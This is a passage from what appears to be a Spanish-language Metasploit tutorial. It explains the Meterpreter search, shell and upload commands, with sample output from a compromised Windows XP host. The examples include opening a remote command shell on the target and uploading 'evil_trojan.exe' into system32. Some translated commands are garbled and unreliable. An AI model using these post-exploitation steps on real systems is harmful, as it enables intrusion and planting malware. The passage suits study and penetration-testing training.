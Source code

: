 	Listing: C:\Documents and Settings\Administrator\Desktop
	========================================================
	
	Mode              Size    Type  Last modified              Name
	----              ----    ----  -------------              ----
	40777/rwxrwxrwx   0       dir   2012-02-29 16:41:29 -0500  .
	40777/rwxrwxrwx   0       dir   2012-02-02 12:24:40 -0500  ..
	100666/rw-rw-rw-  606     fil   2012-02-15 17:37:48 -0500  IDA Pro Free.lnk
	100777/rwxrwxrwx  681984  fil   2012-02-02 15:09:18 -0500  Sc303.exe
	100666/rw-rw-rw-  608     fil   2012-02-28 19:18:34 -0500  Shortcut to Ability Server.lnk
	100666/rw-rw-rw-  522     fil   2012-02-02 12:33:38 -0500  XAMPP Control Panel.lnk
	
	[*] Running background
	
	[*] Backgrounding session 1...
	msf  exploit(handler) >


- Search

El comando search proporcionan una forma de localizar archivos específicos en el host de destino. El comando es capaz de buscar en todo el sistema o en carpetas específicas.
Los comodines también se pueden utilizar al crear el patrón de archivo para buscar.

	meterpreter > search
	[-] You must specify a valid file glob to search for, e.g. >search -f *.doc
	ARGUMENTOS:
	File pattern:	 	May contain wildcards
	Search location:	Optional, if none is given the whole system will be searched.

Uso de ejemplo:

	meterpreter > buscar -f autoexec.bat
	Encontrado 1 resultado ...
	    c:\AUTOEXEC.BAT
	meterpreter > buscar -f sea * .bat c:\\xamp\\
	Encontrado 1 resultado ...
	    c:\\xampp\perl\bin\search.bat (57035 bytes)
	meterpreter >


- SHELL

El comando shell le presentará un shell estándar en el sistema de destino.

	meterpreter > shell
	Process 39640 created.
	Channel 2 created.
	Microsoft Windows XP [Version 5.1.2600]
	(C) Copyright 1985-2001 Microsoft Corp.
	
	C:\WINDOWS\system32>


- UPLOAD
Al igual que con el comando download, debe usar barras dobles con el comando upload .

	meterpreter > upload evil_trojan.exe c:\\windows\\system32
	[*] uploading  : evil_trojan.exe -> c:\windows\system32
	[*] uploaded   : evil_trojan.exe -> c:\windows\system32\evil_trojan.exe
	meterpreter >
